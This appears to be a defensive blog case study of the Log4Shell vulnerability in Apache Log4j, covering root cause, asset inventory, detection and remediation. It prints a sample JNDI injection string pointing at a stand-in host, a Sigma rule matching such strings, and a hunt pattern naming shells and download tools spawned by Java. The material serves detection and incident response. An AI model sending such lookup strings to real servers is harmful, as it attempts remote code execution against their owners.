

---
title: "CVE-2021-44228 Log4Shell: Root Cause, Exposure Mapping, and Detection"
description: "A real-world case study of Log4Shell, the Apache Log4j remote code execution vulnerability, with practical guidance for asset discovery, patching, and detection."
author: "Sivabalan Chandra Sekaran"
pubDate: 2025-04-10
coverImage: "images/covers/cve.svg"
tags: ["cve", "vulnerability-research", "rce", "log4j", "incident-response"]
categories: ["Web Security", "Cloud Security", "Incident Response"]
references:
  - title: "Apache Logging Services Security: CVE-2021-44228"
    url: "https://logging.apache.org/security.html"
  - title: "NVD: CVE-2021-44228"
    url: "https://nvd.nist.gov/vuln/detail/CVE-2021-44228"
  - title: "CVE Record: CVE-2021-44228"
    url: "https://www.cve.org/CVERecord?id=CVE-2021-44228"
  - title: "Microsoft Security Blog: Guidance for preventing, detecting, and hunting for CVE-2021-44228"
    url: "https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/"
---

## Why This Vulnerability Still Matters

CVE-2021-44228, commonly known as Log4Shell, was disclosed publicly in December 2021 and quickly became one of the most operationally disruptive software vulnerabilities of the last decade. Apache rated the issue CVSS 10.0 because affected versions of `log4j-core` could resolve attacker-controlled JNDI lookups and load code from remote endpoints.

The hard part was not only patching internet-facing Java applications. The hard part was finding every copy of Log4j embedded in vendor products, shaded JARs, container images, build artifacts, and old release branches.

## Advisory Summary

| Field | Detail |
|-------|--------|
| CVE | CVE-2021-44228 |
| Common name | Log4Shell |
| Component | Apache Log4j `log4j-core` |
| Severity | CVSS 3.1: 10.0 Critical |
| Primary impact | Remote code execution in vulnerable configurations |
| Affected ranges | Log4j 2.0-beta9 through vulnerable 2.14.x lines, with fixed versions depending on Java line |
| Initial fixed versions | 2.15.0 for Java 8+, later followed by additional fixes for related Log4j issues |

## Root Cause

Log4j supported message lookups, including JNDI lookups. In vulnerable versions, if an application logged attacker-controlled content, a crafted lookup string could cause the server to contact attacker-controlled infrastructure.

The vulnerable pattern is conceptually simple:

```java title="unsafe_logging_example.java"
String userAgent = request.getHeader("User-Agent");
logger.info("Request from {}", userAgent);
```

The logging call itself looks normal. The danger was that the logged value could contain lookup syntax interpreted by Log4j before the message was written.

```text title="sanitized_indicator.txt"
${jndi:ldap://example.invalid/a}
```

That string is shown as an indicator pattern, not as an exploitation recipe. In real incidents, defenders saw many protocol variants, encoded forms, case changes, nested lookups, and payloads placed in HTTP headers such as `User-Agent`, `X-Forwarded-For`, and `Referer`.

## Why Asset Discovery Was Difficult

Teams that searched only for explicit Maven dependencies often missed vulnerable copies. Real exposure mapping needed multiple views:

1. Source dependencies in Maven, Gradle, SBT, and vendor build files.
2. Built JAR/WAR/EAR archives containing `JndiLookup.class`.
3. Container images and base layers with Java applications.
4. Commercial appliances and third-party software using bundled Log4j.
5. Long-running services deployed before the current SBOM process existed.

```bash title="defensive_inventory_examples.sh"
# Find Java archives for offline inspection.
find /opt /srv /var -type f \( -name "*.jar" -o -name "*.war" -o -name "*.ear" \) 2>/dev/null

# Identify artifacts that contain the historical lookup class.
zipgrep -l "JndiLookup.class" /path/to/app.jar
```

Version checks are useful, but they are not enough by themselves. A shaded dependency, vendor patch, backport, or removed class can make simple filename matching inaccurate.

## Detection Opportunities

No single detection catches every Log4Shell attempt. Good coverage combines web telemetry, DNS, proxy logs, endpoint process behavior, and dependency inventory.

### Web and Proxy Logs

Look for lookup syntax or encoded equivalents in:

- HTTP request headers
- URL paths and query strings
- POST bodies where logged by the application
- Authentication fields and error-triggering inputs

```yaml title="sigma_log4shell_probe.yml"
title: Possible Log4Shell Probe In Web Logs
status: test
logsource:
  category: webserver
detection:
  selection:
    request|contains:
      - '${jndi:'
      - '%24%7Bjndi'
      - '$%7Bjndi'
  condition: selection
fields:
  - src_ip
  - request
  - user_agent
falsepositives:
  - Security scanners and internal validation tools
level: high
```

### DNS and Egress

Outbound LDAP, RMI, DNS, or HTTP callbacks from application servers were a strong triage signal, especially where those servers normally had tightly controlled egress.



### Endpoint Telemetry

On hosts, prioritize Java processes spawning shells, download tools, scripting runtimes, or unusual child processes:

```text title="hunt_logic.txt"
parent_process_name: java.exe OR java
child_process_name: sh OR bash OR cmd.exe OR powershell.exe OR curl OR wget
```

Treat this as high-confidence only when paired with an exposed Java service, suspicious inbound request, or unexpected outbound callback.

## Remediation Lessons

1. Upgrade Log4j according to Apache guidance for the Java version in use.
2. Remove or upgrade vulnerable vendor packages, not only first-party code.
3. Block unnecessary egress from application servers.
4. Build SBOM coverage into release pipelines.
5. Add recurring dependency scanning for dormant services and old images.
6. Keep emergency patch procedures ready for internet-facing software.

## Takeaways

Log4Shell was a dependency-management failure as much as an application vulnerability. The organizations that responded best had three things ready before disclosure: asset inventory, egress visibility, and a fast path from advisory to production patch.

The practical lesson for defenders is simple: if a component is common enough to be everywhere, finding it is part of incident response.
